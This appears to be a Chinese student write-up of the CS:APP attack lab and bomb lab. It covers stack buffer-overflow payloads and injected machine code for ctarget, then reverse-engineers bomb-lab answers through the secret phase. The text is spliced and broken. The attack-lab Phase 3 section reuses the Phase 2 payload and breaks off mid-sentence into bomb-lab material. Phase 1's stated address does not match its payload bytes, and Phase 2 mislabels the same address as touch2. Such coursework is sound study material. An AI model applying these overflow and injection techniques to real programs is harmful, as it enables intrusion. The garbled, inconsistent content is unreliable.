




# Lab3

## Phase 1

在 `ctarget` 中从 `getbuf` 函数进入 `touch1` 函数。

首先要了解函数调用和返回，与栈空间的关系。

在本阶段的情境下，栈空间有这样的结构


正常流程下：

1. `call` 指令会将自身的下一句指令的地址压入栈中，作为未来的返回地址，紧接着将寄存器 `%rip` 指向要调用的函数的入口，将控制转移到该函数。
2. `ret` 指令会弹出栈顶中存储的 `8` 字节数值，作为返回地址，将 `%rip` 指向它并将控制转移到这个地址。
3. 流程如下，省略了函数中部分无关指令

```s
                            0000000000401968 <test>:
                            401968: sub  $0x8,%rsp        1. push 0x401976 to stack
                            40196c: mov  $0x0,%eax           movq 0x4017a8 to %rip
                            401971: call 4017a8 <getbuf>  >--------------------+
    +-------------------->  401976: mov  %eax,%edx                             |  
    |                       401978: mov  $0x403188,%esi                        |
    |                       ...                                                |
    |                                                                          |
    |                       00000000004017a8 <getbuf>:  <----------------------+
    |                       4017a8: sub  $0x28,%rsp        |
    |                       4017ac: mov  %rsp,%rdi         |    
    |                       4017af: call 401a40 <Gets>     |
    |                       4017b4: mov  $0x1,%eax         | 2. Running getbuf function
    |                       4017b9: add  $0x28,%rsp        |
    +--------------------<  4017bd: ret                    v
    3. pop 0x401976 from stack
       movq it to %rip                        ...
```

目的是在 `getbuf` 函数中输入字符串，使得它不会在 `0x4017bd` 处 `ret` 时回到 `test` 函数，而是直接进入 `touch1` 函数。

由于 `ret` 指令会从栈顶获取返回地址作为控制转移的目标，因此如果可以将栈顶地址篡改为 `touch1` 函数的入口地址，则可以直接进入 `touch1` 函数。

注意到 `getbuf` 函数中输入的字符串正是存放在栈中，和返回地址紧邻，如果输入的字符串足够长，会直接发生数组越界，覆盖掉栈深处的其它信息，其中首当其冲的便是 `getbuf` 的 `ret` 的返回地址。

因此便需要输入这样的字符串，前 `40` 个字节可以任意填写，用于填充字符数组，接下来需要额外输入 `8` 字节的一个地址，使返回地址成为 `touch1` 函数的地址 `0x4017c0`。

另外注意小端法机器，低位数字在低位地址，因此需要输入的地址需要倒序排列。

字符串中每个字符内容如下（以 `16` 进制的 `ascii` 码表示）：

```c
    buf[40] = { /* Phase 1 */
        0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, /* 以下 40 字节为填充字符，内容任意 */
        0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
        0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
        0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
        0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
        0xBE, 0x17, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* 这 8 字节为 touch1 函数的地址 */
    }
```

使用 `hex2raw` 将这串十六进制数字转化为文本作为输入即可

## Phase 2

整体目标和 `Phase 1`接近，但是需要在进入函数前将 `%rdi` 置为 `cookie` 值，即 `0x59b997fa`

因此需要在串中注入一段指令并使得程序先执行这段指令，再进入 `touch2`。

使用手册中给出的方法，首先写好指令的汇编码，再利用 `gcc` 和 `objdump` 得到它的二进制机器码。

汇编码如下

```asm
    movq $0x59b997fa, %rdi
```

要将它注入程序中，最显而易见的方式便是在输入字符串中输入这串数字（的 `ascii` 码对应的字符）。

接下来要关注的便是如何使程序按照设想的方式转移控制。

唯一能利用的篡改控制转移的方法仍然是篡改 `ret` 获取的返回地址。但这次需要进行两次控制转移。一次是转移到注入的指令处，第二次是转移到 `touch2`。

要实现第一次转移，只要使（在`getbuf` 中执行 `ret` 之前）栈顶返回地址为注入指令的地址，但要实现第二次转移，即从注入指令转移到 `touch2`，需要使这时的栈顶为 `touch2` 的地址。

很有用的事实是，`ret` 函数除了会将栈顶内容存入 `%rip` 外，还会将它从栈顶弹出，这样，栈顶自然成为它之后的下一个数字。

也就是说，如果将两个地址先后放在数组后面，在第一次转移前栈顶为注入指令的地址，转移后栈顶便会自然指向 `touch2`，在注入指令中添加上 `ret`，它会自然得到 `touch2` 的地址，并进入 `touch2`。

也就是如下的汇编码

```asm
    movq $0x59b997fa, %rdi
    ret
```

得到的机器码为

```asm
    0:  48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
    7:  c3                      ret
```

将它写入输入字符串中，`40` 字节后加上它的地址（字符数组的地址）与 `touch2` 的地址。

> *如何获取注入指令的地址？*

注意到，输入的字符串也是存在栈中的，在输入完成之后（执行其它指令之前），它的地址就是栈顶地址。

使用 `gdb` 进入程序，在 `getbuf` 时使用 `print $rsp` 便可获得字符串地址。当然，也可以使用 `x/s $rsp` 测试。


得到 `%rsp` 的值，将它加上注入指令在字符串中的位置（偏移量），便得到注入指令的位置，将它放在串的后面。最简单的情况当然就是指令在字符串的开头，地址正是 `%rsp`。

***再次注意小端法！！***

```c
    buf[40] = { /* Phase 2 */
        0x48, 0xC7, 0xC7, 0xFA, 0x97, 0xB9, 0x59, 0xC3, /* 这 8 字节为注入指令 */
        0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, /* 以下 32 字节内容任意 */
        0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
        0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
        0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
        0x78, 0xDC, 0x61, 0x55, 0x00, 0x00, 0x00, 0x00, /* 这 8 字节为指令地址 */
        0xBE, 0x17, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* 这 8 字节为 touch2 函数的地址 */
    }
```

## Phase 3

这次同样需要将 `%rdi` 修改，但是需要改成一个地址，而这个地址指向的是存放有 `cookie` 的字符数组。

指令注入与转移部分保持不变，这次要考虑 `cookie` 数组的存放位置，只要将这个位置（替代 `Phase 2` 中 `cookie` 本身）存入 `%rdi` 中即可。

很显然的，`cookie` 数字直接放在输入串中即可。

再将串中注入的 `movq` 指令的操作数，从 `cookie` 本身，改为对应的地址。

关于 `cookie` 地址的获取，由于同样是在输入串中，和 `Phase 2` 中指令地址的获取并无不同，只需确保它们在输入串中的位置，和地址的偏移量正确即可。

假设 `cookie` 串在输入串的**下标** `16` 的位置，那么 `movq` 的操作数便是 `%rsp + 16`，输入串末尾的返回地址同理，根据注入指令的位置做适当的偏移即可。

#movq $0x59b997fa,%rsp + 0x20
# 59b9 => 0x35 0x39 0x62 0x39 => 0x39623935
# 97fa => 0x39 0x37 0x66 0x61 => 0x61663739
movq $0x39623935,0x20(%rsp)
movq $0x61663739,0x24(%rsp)
leaq 0x20(%rsp), %rdi
ret


```c
    buf[40] = { /* Phase 3 */
        0x48, 0xC7, 0xC7, 0xFA, 0x97, 0xB9, 0x59, 0xC3, /* 这 8 字节为注入指令 */
        0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, /* 以下 32 字节内容任意 */
        0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
        0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
        0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
        0x78, 0xDC, 0x61, 0x55, 0x00, 0x00, 0x00, 0x00, /* 这 8 字节为指令地址 */
        0xBE, 0x17, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* 这 8 字节为 touch2 函数的地址 */
    }
```
度为 6 的数组，以 `1` 开头，且每一项是前一项的两倍

**Phase2: 1 2 4 8 16 32**

## Phase 3


`0x400f5b` 行至 `0x400f71` 行输入至少两个数字，并将第一个数字（经过多次测试得出，这两个数字存放在栈顶下 `8` 字节与 `12` 字节处）存入 `%eax`，同时保它是不大于 `7` 的非负数。


`0x400f75` 根据输入的第一个数字的值，获取对应地址处（具体为 `0x402470 + 8 * %rax`）存放的另一个值，并间接跳转到该值存储的地址处，可以注意到，`jmp` 间接跳转的目标地址都是其下方某个 `mov` 指令的地址，所有 `mov` 会将 `%eax` 赋为某个值，之后都会到达 `0x400fbe` 处的 `cmp` （包括 `jmp` 至的和恰好顺序执行到的）。

可以总结为 `phase_3` 中生成了一个 `switch-case` 语句的跳转表，不同的 `case` 对应不同的另一个数字，如果输入的两个数字在 `switch-case` 中存在匹配的组合则通关

`0x400fbe` 处如果 `%eax` 与 输入的第二个数字相等则跳过炸弹通关。通过数次的尝试得到的对应关系如下，任意输入其中一对即可



**Phase3: 0 207 || 1 311 || 2 707 || 3 256 || 4 389 || 5 206 || 6 682 || 7 327**

## Phase 4

{width=53%}

首先读入恰好两个整数存入 `%rsp + 8` 和 `%rsp + 12`，且保证第一个数是不大于 `14` 的非负数（负数不能满足无符号比较）。将 `%edx` `%esi` `%edi` 分别初始化为 `14` `0` `*(%rsp + 8)` 后进入函数 `func4`：

{width=45%}

`0x400fd2` 至 `0x400fdf` 进行了如下操作，（使用 c 形式表示，注释内代入数值）:

```c
%eax = %edx - %esi                      //( == 14 - 0 == 14)
%ecx = %eax                             //( == 14)
%eax = %eax + ((unsigned)%ecx >> 31)    //( == 14 + (14 >> 31) == 14)
%eax = %eax >> 1                        //( == 14 >> 1 == 7)
%ecx = %rax + %rsi                      //( == 7 + 0 == 7)
```

之后比较 `%edi`（输入的第一个数字）与 `%ecx (== 7)`，如果 `7 <= %edi` 则跳转至 `0x400ff2`。

在 `0x400ff2` 令 `%eax = 0` 后比较 `%ecx (== 7)` 与 `%edi` 如果 `7 >= %edi` 则跳转至 `0x401007`。

至此函数已经跳过了其中全部的递归调用直接返回，同时 `%eax` 恰为所需要的 `0`，因此只需要使 `%edi >= 7` 且 `%edi <= 7` 即可直接通过 `func4`，而 `%edi` 即是输入的第一个数字，因此输入的第一个数字只需为 `7` 即可。`0x401051` 要求第二个数一定为 `0`。

**Phase4: 7 0**

## Phase 5

{width=50%}

*查阅了解从 `0x40106a` 至 `0x401073` 部分是保证程序健壮性的安全措施，不影响解题，故忽略。*

`0x401078` 检测输入的字符串长度（从 `string_length` 函数的名称可猜测得出），需要为 `6`。

在 `0x401089` 处跳转至 `0x4010d2` 将 `%eax` 置零再回到 `0x40108b` 进入 `0x40108b` 至 `0x4010ac` 之间的循环，其中 `%rax` 作为循环变量从 `0` 至 `5`，当到达 `6` 时结束循环

1. 将 `(%rbx + %rax)` 地址处的变量存入 `%ecx`，将 `%cl` （`%ecx` 的低 `8` 位）存入栈顶和 `%rdx` 中，后者只保留低 `4` 位。
2. 取 `(0x4024b0 + %rdx)` 地址处的值替换掉 `%rdx`，再将它的低 `8` 位存入 `(%rsp + %rax + 16)`（栈顶下 `%rax + 16` 字节处）。
3. 循环变量 `%rax` 递增，若到达 `6` 结束循环。
4. 其中 `%rbx` 是输入的字符串的地址，`%rax` 是循环变量，`%ecx` `%cl` 和 `%rsp` 作为中间变量。

以上循环体实现以下功能，将 `*(%rbx + %rax)` 的数值取低 `4` 位（即对 `16` 取模），记作 `temp`，取 `*(0x4024b0 + temp)` 处的值存入栈顶下 `(16 + %rax)` 字节处。由于 `%rax` 是从 `0` 至 `5` 的自变量，因此相当于对输入串每个字符进行如上替换后，新串放入栈顶下 `16` 字节处。

`0x4010ae` 在保存的新串后添加结束符 `'\0'`。

查看 `0x4024b0` 处的字符串可以推测出转换规则。

`0x4010b3` 和 `0x4010b8` 分别将 `0x40245e` 的某个串与输入串转换后的新串比较，若相同则 `je` 至 `0x4010e9` 结束函数。

查看 `0x40245e` 处的串。 要让输入串转变为 `"flyers"`

查看 `0x4024b0` 处的串。

由于转换式有对 `16` 取模操作，转换只需要前 `16` 个字符 `"maduiersnfotvbyl"`。*其余字符串是在程序执行过程中输入 `Ctrl + C` 时的提示语，与本题无关。*

在串中找到 `"flyers"` 分别在 `9` `15` `14` `5` `6` `7` 处。由前面的转换规则：“输入字符对 `16` 取模”，需要输入 `6` 个对 `16` 取模后分别为这些数值的字符，查询 `ASCII` 码表得到



如上对应关系，只需在下方的每个框中各选择一个字符即可，例如：

**Phase5: ionefg**

## Phase 6

Phase 6 较为复杂，分为四个阶段

***Phase 6 Part 1***


以上部分首先读入 `6` 个数字，下文记作 `a[0] ~ a[5]`，做 `%r14 = %rsp` 和 `%r12d = 0` 的初始化后，进入 `0x401114` 至 `0x401151` 的双层循环，其中外层循环的循环变量为 `%r12d`，记作 `i`，从 `1` 至 `5`，当到达 `6` 时结束循环。

内层循环：

1. 在 `0x401132` 将 `%rbx` 初始化为外层循环变量 `i` 的值，然后作为内层的循环变量 `j`，进入 `0x401135` 至 `0x40114b` 的内层循环，范围为 `i ~ 5`，到达 `6` 结束循环，循环体如下：
   1. `%rax = j`。
   2. `%eax = *(%rsp + %rax * 4)`，其中 `%rax == j`。即计算栈顶下 `j * 4` 字节处的地址中的值，也就是输入的 `a[j]`，存入 `%eax`
   3. 比较 `a[j]` 与 `*(%rbp)`，若相同则引爆炸弹，它们不能相同。
   4. 循环变量自增 `1`，若自增后到达 `6`，结束内层循环，否则回到步骤 1。
2. 将 `%r13 += 4` （即指向下一个输入的 `int` 变量，`%r13` 在程序开始时被初始化为 `%rsp` ，截图中没展示）后进入外层的下一次循环。
3. 由于内层循环中 `%rbp` 保持不变，`j` 从 `i` 至 `5`，因此会将第 `i` 至第 `5` 个数字分别与 `*(%rbp)` 比较，保证它们不同。

外层循环，将 `i` 初始化为 `0` 后执行如下操作：

1. 将 `%r13` 存入 `%rbp`，以及它存储的地址处的数字存入 `%eax`。
2. 该数字减 `1` 后与 `5` 无符号比较，若数字大于 `5` 则引爆炸弹，因此需要减 `1` 后的数字无符号比较不大于 `5`，也即不减少的数字（输入的原数字）在 `1` 到 `6` 之间。
    1. 若原数小于等于 `0`，减 `1` 后的数字的无符号解释显然会大于 `5` 不符合要求，所以减 `1` 后的无符号比较可以保证输入为正.
    2. 在该步骤完成后 `%eax` 不再作为源操作数，因此它不会影响其它操作，所以在这里仅仅用于检查输入的范围。
3. 将 `i` 自增 `1`，若到达 `6` 则结束外层循环，否则将自增后的 `i` 存入 `%rbx`，这是内层循环变量的初始化，进入内层循环（内层循环之前即自增，因此说 `i` 从 `1` 开始）。

注意到以下事实：

1. 第一次进入内层循环时，`%rbp` 从栈顶也即从 `0` 开始，而`%r12d` 从 `1` 开始，内层循环中的比较是栈顶数字与其下方的每个数字（当然，不超过全部的 `6` 个数字）比较，不包括自己。保证它们不相同。
1. 其后每一次进入内层循环前，`%r13` 与 `i` 同步增长，其中前者在前一次内层循环结束后自增，后者在下一次开始前自增。
1. 在每次外层循环时，都有 `%rbp = %r13`，而 `%rbp` 不在其它地方改变，因此等价于 `%rbp` 与 `i` 的同步增长。
1. 实现了这样的操作，`%rbp` 从栈顶开始，`i` 从它下面一个开始，将 `a[0]` 个数字与第 `a[1...5]` 分别比较，保证互不相同；二者同步自增，将 `a[1]` 数字与 `a[2...5]` 分别比较。以此类推

综上 `0x401106` 至 `0x401151` 实现了输入 `6` 个数字，范围在 `1` 至 `6` 之间，互不相同。

***Phase 6 Part 2***


将栈顶下 `24` 字节的地址存入 `%rsi`，并将 `%rax` 初始化为 `%r14` 也即 `%rsp`（`0x40110b` 处将 `%r14` 初始化为 `%rsp`且未再改变），也就是输入数组首地址 `a`，以及将 `%ecx` 初始化为 `7`。之后进入 `0x401160` 至 `40116d` 之间的循环，`%rax` 作为循环变量：

执行 `%edx = %ecx (== 7)`，将 `7` 减去 `a[i]` 并存回到 `a[i]`，`%rax += 4` 指向下一个元素，直至 `%rax` 指向数组末尾。

这一部分实现了将输入的 `6` 个数字原地对 `7` 取补的操作，如将 `1` 转换为 `7 - 1 == 6`，`4` 转换为 `7 - 4 == 3`，`6` 转换为 `7 - 6 == 1` 等。

***Phase 6 Part 3***


进入后首先初始化 `%esi = 0` 后跳转到 `0x401197`。

在此处将栈顶下 `%rsi` 字节处的数字存入 `%rcx`，注意到这一部分 `%rsi` 作为目标操作数只有 `0x40118d` `0x401191` 两行，根据它们的内容可以得出 `%rsi` 表示数组索引，由于变化量是 `4`，下文中以 `i` 代指 `%rsi / 4` 表示数组索引。于是这一行的指令可以表示为 `%ecx = a[i]`

之后检查 `%ecx`，若它小于等于 `1`，`jle` 至 `0x401183` 将 `%edx` 赋值为 `0x6032d0`，并将这个指针存入 `0x20 + %rsp + 2 * i` 的地址处。

注意到有且仅有 `0x401188` 这一行对栈顶下 `0x20` 个字节之后的位置有操作，且形式和上文中的数组类似，不妨认为在这个位置有另一个数组，记为 `b`，它的首地址是 `0x20 + %rsp`，而索引 `%rsi` 以 `4` 为变化量，这里的目标操作数比例因子为 `2`，所以数组 `b` 元素以 `8` 字节为变化量。另外，可以发现它的源操作数 `%rdx` 是地址，所以这是一个指针数组。变址与数组 `a` 相同，所以可以使用相同的索引 `i`。

这时重新从 `0x401197` 分析。将 `a[i]` 存入 `%ecx`：

1. 若它小于等于 `1`，将`0x6032d0` 存入 `b[i]`。
2. 若大于 `1`，令 `%eax` 初始化为 `1`，`%edx` 初始化为 `0x6032d0`，进入 `0x401176` 至 `0x40117f` 的循环，`%eax` 是循环变量
    1. 将 `%rdx` 改为它存储的指针 `+ 8` 后的指针指向的地址存储的指针。
    2. `%eax ++`，若与 `%ecx` 相等结束循环，否则回到步骤 i。
    3. 结束循环后，将此时的 `%rdx` 的指针存入 `b[i]`。

可以得出结论，`0x6032d0` 开始有一个链表，每个结点的 `+ 0` 的位置是数据域，`+ 8` 的位置是表示后继结点的地址域。链表结点结构如下：

```c
typedef struct Node{
    long data;
    Node* next;
};
```

这一部分则是根据 `a` 数组中的值 `a[i]`，取链表中第 `a[i]` 个值，存入 `b[i]` 中。例如，若 `a[i]` 为 `1`，则取链表中第 `1` 个值，若 `a[i]` 为 `4`，则取链表中第 `4` 个值，将其存入 `b[i]` 中。

使用 `gdb` 调试查看链表内容如下



***Phase 6 Part 4***


`0x4011bd` 至 `0x4011d0` 是一个循环，循环变量 `%rax` 初始化为 `b` 数组**第二个元素**的地址即 `b + 1`，终止条件为 `%rax` 指向 `b` 数组末尾。同时初始化 `%rbx` 和 `%rcx` 为 `b[0]`（循环中不使用 `%rbx`）：

1. 赋 `%rdx` 为 `*(%rax)` 即 `b[1]`
2. 将 `%rdx` 复制到 `(0x8 + %rcx)` 位置处，
    1. 此时 `%rcx` 是 `b[0]`，是链表中某个结点的地址。
    2. `8 + %rcx` 是这个结点的后继指针，即它指向的下一个结点的地址
    3. 将它替换为 `%rdx` ，即**用 `b[1]` 替换 `b[0]` 结点的后继指针**。
3. `%rax += 8`，`%rcx = %rdx`，即让 `%rax` 指向 `b` 数组的下一个元素的所在地址（此时为 `b + 2`），`%rcx` 则是下一个元素本身（`b[1]`），这一步是循环的递增，分别让两个变量在 `b` 数组上递增。
4. 若 `%rax` 指向 `b` 数组末尾，结束循环。

循环结束后，`%rdx` 为 `b[5]`，`0x4011d2` 行保证链表结尾指空
这个循环将链表重排，使链表按照 `b` 数组的顺序排列。

之后，将 `%ebp` 初始化为 `5`，作为循环变量进入 `0x4011df` 至 `0x4011f5` 之间的循环，此时 `%rbx` 仍为 `b[0]`：

1. `%rbx` 的初始状态 是 `b[0]`，是链表中某个结点的地址，`%rbx + 8` 则是这个结点的指针域，`mov` 可以将 `%rbx + 8` 解引用，将内容存入 `%rax`，此时 `%rax` 内就是前一结点的后继结点的地址
2. 再对 `%rax` 自身解引用，因为 `%rax` 内是后继结点的地址，解引用后就是后继结点的 `data`
3. 将其与 `(%rbx)` 比较，`%rbx` 是前一结点的地址，解引用后就是前一结点的 `data`，所以这一步会将相邻两个结点的 `data` 作比较
4. 若 `(%rbx)` 小于 `%eax` 则执行 `explode_bomb`，所以需要前一结点的数据大于或等于后继结点的数据。
5. 将 `*(8 + %rbx)` 存入 `%rbx`，作用类似于步骤 1，将结点更新为后继节点。
6. 重复操作直到 `%ebp` 到达 `0`，此时 `%rbx` 也到达链表结尾，没有后继节点。

综上，这个循环要求链表中的结点的数据按照降序排序

***Phase 6 Conlusion***
因此只需要获取到链表中的所有结点（并按序编号 `1 ~ 6`）的数据，以降序重排。



使 `a` 数组中为排序后的顺序（的结点编号）即可，即 `3 4 5 6 1 2`。但同时，由于函数会将输入的数组对 `7` 取补，因此需要输入预先对 `7` 取补后的数组。

**Phase 6: 4 3 2 1 6 5**

## Secret Phase

### Entrance

在汇编文件中，`phase_6` 函数后有 `func7` 和 `secret_phase`，说明存在隐藏关，首先寻找进入的方法。

直接用编辑器打开汇编文件，使用 `Crtl + F` 查找 `secret_phase`，发现在每次拆弹后的 `phase_defused` 函数中有调用该函数。

{width=80%}

`0x4015d8` 行将某寄存器与 `6` 比较，且有注释标识 `num_input_strings`，猜测是指输入过的字符串的总个数，如果不等于 `6` 则直接 `jne` 到 `0x40163f` 结束函数，所以必须要总共输入 `6` 个串之后才可能进入隐藏关。由于每一关对应一个字符串，所以至少要完成前面全部六关。

`0x4015f0` 行开始，以 `0x402619` 和 `0x603870` 作为参数调用标准输入函数 `isoc99_sscanf`，查看这两个参数。
{width=40%}
前者为 `isoc99_sscanf` 函数的格式化参数，表示输入两个整数和一个字符串，后者恰好为 `Phase4` 的输入，这里会重新读入 `Phase4` 的输入。

`0x4015ff` 比较返回值是否为 `3`，如果不为 `3` 则`jne` 至 `0x401635`，输出提示语，结束函数。

`isoc99_sscanf` 的返回值是成功读入的数据个数，因此需要让这个函数读入三个串。前两个分别是 `Phase4` 本身的解 `7 0`，第三个输入会作为参数，与 `0x402622` 处的串进入 `strings_not_equal` 函数，如果两个串相同，会输出两个提示词，进入 `secret_phase`。

查看该串{width=25%}
所以要在 `Phase4` 的输入后添加 `DrEvil`，即

**Phase 4: 7 0 DrEvil**

### Solution

{width=60%}

将 `%edx` 初始化为 `10`，`%esi` 为 `0`，并使输入转换成整数，存入 `%rbx`，减 `1` 后存入 `%eax`。将它无符号比较，若不大于 `0x3e8` 则跳过 `explode_bomb`，这里与 `Phase6` 的 `0x40111b` 至 `0x401121` 部分类似，保证输入为正。所以这里保证输入是不大于 `0x3e8` 的正数。

将 `%ebx`（输入的数字）和 `0x6030f0` 作为参数进入 `fun7`，在 `fun7` 中运算后如果返回值 `%eax` 为 `2`，则跳过 `explode_bomb`，完成隐藏关。查看 `0x6030f0` 处的值{width=25%}

以下为 `func7`:

{width=60%}

如果参数 `%rdi` 为 `NULL` 则 `je` 至 `0x401238` 结束 `fun7`，此时显然不为 `0`。

注意到：

1. 在 `0x40121c` 行会使 `%eax` 加 `%eax`，即 `%eax = %eax * 2`。
2. 在 `0x401220` 行会使 `%eax` 置零，即 `%eax = 0`。
3. 在 `0x401232` 行会计算 `0x1 + %rax + %rax * 1` 存入 `%eax`，即将 `%eax = %eax * 2 + 1`
4. 除置零操作外，其余两个操作都会直接 `jmp` 到函数末尾返回。而置零操作后在 `%edx == %esi` 条件下也会返回。

如果希望以 `2` 作为返回值。可以以 `%eax = 0   -->   %eax = %eax * 2 + 1   -->   %eax = %eax * 2` 的顺序执行。

由于函数递归调用类似栈操作，所以要先在 `%eax` 翻倍前第一次递归调用，再在翻倍加一前第二次调用，使 `%eax` 置零，再分别返回两次递归，这样即可实现 1. `%eax` 置零 2. 第一次返回后加一 3. 第二次返回后翻倍 4. 完全返回。使 `%eax` 最终为 `2`。

希望到达 `0x401217`，不能满足 `%edx <= %esi`，其中 `%edx` 在 `0x40120d` 行赋值为 `*(%rdi) (== 36)`，所以输入要小于 `36`，之后 `%rdi` 更新为它存储的地址 `+ 8` 的位置的值（这里与 `Phase6` 类似，同样为一个链表）
{width=30%} 这个地址中的值是 `0x8`。

第一次递归调用 `func7`，这次需要到达 `0x401220`。`%edx` 赋值为 `8`,要求 `%esi >= 8`，输入应不小于 `8`。但是如果相等会在 `0x401227` 处跳转到函数末尾，没能使 `%eax` 加一，所以不能相等。

`%rdi` 直接更新为 `+ 16` 的位置存储的地址（`0x603150`，内容为 `0x16`），第二次递归。这次希望直接返回。同样使 `%edx = *(%rdi) // (== 0x16)` 后：

1. 注意到如果 `%edx <= %esi`，可以 `jle` 到 `0x401220` 将 `%eax`置零。
2. 如果还有 `%edx == %esi` 可以 `je` 到 `0x40123d`，直接返回。
3. 此时的 `%edx` 是 `22`.
4. 同时，如果输入为 `22`，可以同时满足上述 `%rsi <= 36` `%rsi > 8` `%rsi == 22` 的要求。

这时函数就会以预想的位置和顺序递归调用，也会以预想的顺序返回，令 `%eax = 2` 并跳出递归。

**SecretPhase: 22**

最后的运行结果为：
{width=50%}
